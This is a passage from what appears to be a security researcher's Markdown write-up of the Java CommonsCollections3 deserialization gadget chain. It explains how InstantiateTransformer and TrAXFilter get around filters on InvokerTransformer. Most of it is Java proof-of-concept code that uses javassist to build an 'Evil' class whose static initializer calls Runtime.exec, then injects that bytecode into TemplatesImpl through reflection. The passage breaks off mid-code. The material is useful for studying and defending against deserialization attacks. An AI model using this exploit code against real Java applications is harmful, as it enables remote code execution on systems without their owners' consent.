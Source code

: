 <img src="./images/10.png" alt="">

# CommonsCollections3 Analysis
> The `CommonsCollections3` chain is actually a combination of the `CommonsCollections1` chain and the `CommonsCollections2` chain. In order to bypass the restrictions on InvokerTransformer` by some rules, `CommonsCollections3` does not use `InvokerTransformer` to call any method. According to the above pre-knowledge, you can use `InstantiateTransformer()` to call the `TrAXFilter()` constructor method, and then use its `templates.newTransformer()` of its constructor method to call the `TemplatesImpl` bytecode, which is better than avoiding the use of `InvokerTransformer`

```java
package CommonsCollections3;

import java.io.*;
import java.lang.*;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 10:33 pm
 */
public class TrAxFilterDemo {

    public static void trAxFilterDemo() throws IllegalAccessException, NoSuchFieldException, NotFoundException, CannotCompileException, IOException {
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("Evil");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetByteCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();
        Field _name = c1.getDeclaredField("_name");
        Field _bytecode = c1.getDeclaredField("_bytecodes");
        Field _tfactory = c1.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
```